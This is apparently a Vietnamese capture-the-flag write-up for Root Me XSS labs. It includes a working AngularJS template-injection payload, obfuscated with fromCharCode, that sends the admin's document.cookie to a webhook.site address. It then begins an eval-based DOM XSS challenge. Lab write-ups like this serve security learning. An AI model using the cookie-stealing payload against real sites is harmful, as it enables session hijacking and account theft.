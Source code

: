 (...)(): Gọi hàm khởi tạo của hàm khởi tạo của đối tượng hiện tại và truyền vào chuỗi "alert(1)" dưới dạng tham số. Sau đó, đối tượng mới được tạo ra từ hàm khởi tạo này sẽ được gọi và thực thi, dẫn đến việc hiển thị thông báo "1" trên trình duyệt nếu được chạy trên môi trường trình duyệt.
Tuy nhiên, đoạn mã này là một ví dụ của một lỗ hổng bảo mật trong JavaScript gọi là "cross-site scripting (XSS)" và được sử dụng để thực hiện các cuộc tấn công bảo mật. Do đó, tuyệt đối không nên sử dụng nó trong các ứng dụng thực tế.
Xem thêm tại [XSS AngularJS](https://www.youtube.com/watch?v=67Yc8_Bszlk&list=PLhixgUqwRTjwJTIkNopKuGLk3Pm9Ri1sF)

Bỏ qua đoạn nhiều chữ khó hiểu bên trên thì điều đọng lại là payload này nó hoạt động :+1: 

![](https://i.imgur.com/76XDB9T.png)

Để lấy được cookie của admin em cần tạo ra một link để gửi cho admin. Khi admin nhấn vào link đó thì cookie của admin sẽ được chuyển hướng đến website đó:

`{{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(119, 105, 110, 100, 111, 119, 46, 108, 111, 99, 97, 116, 105, 111, 110, 46, 104, 114, 101, 102, 61, 96, 104, 116, 116, 112, 115, 58, 47, 47, 119, 101, 98, 104, 111, 111, 107, 46, 115, 105, 116, 101, 47, 49, 57, 102, 49, 50, 50, 57, 48, 45, 57, 55, 52, 102, 45, 52, 101, 97, 56, 45, 57, 101, 53, 98, 45, 56, 52, 97, 102, 50, 56, 48, 54, 98, 101, 102, 102, 63, 99, 111, 111, 107, 105, 101, 61, 36, 123, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101, 125, 96))()}}`

Sau đó em sẽ sang webhook để chờ cookie của admin được gửi về:

![](https://i.imgur.com/nqrnJWw.png)


---


# Root Me/XSS - DOM Based Eval

![](https://i.imgur.com/1JkNAtc.png)

Link to chall: http://challenge01.root-me.org/web-client/ch34/

## Phân tích

Tương tự như bài DOM based bên trên nhưng khác là tên bài lần này là eval, Em bắt đầu test thử các tính năng của website, thấy rằng website cho phép chúng ta nhập vào dữ kiện của phép tính sau đó sẽ lấy dữ kiện đó đưa vào hàm eval() để tính ra kết quả và chèn vào DOM:

`?calculation=1*1`

```html
    <div id="state"></div>
    <script>
        var result = eval(1*1);
        document.getElementById('state').innerText = '1*1 = ' + result;
    </script>
```

Nhưng bài này đã có những filter rất khó chịu :<

